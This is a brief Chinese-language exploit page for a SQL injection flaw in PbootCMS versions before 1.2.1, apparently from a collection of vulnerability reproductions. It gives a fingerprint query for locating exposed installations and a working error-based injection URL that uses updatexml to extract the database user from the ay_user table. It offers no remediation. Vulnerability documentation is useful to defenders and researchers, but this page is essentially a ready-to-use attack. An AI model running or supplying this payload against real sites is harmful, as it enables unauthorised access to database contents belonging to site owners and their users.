

# PbootCMS ext_price SQL注入漏洞

## 漏洞描述

PbootCMS 存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS < 1.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

主页


测试 Payload


```plain
/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123)
```


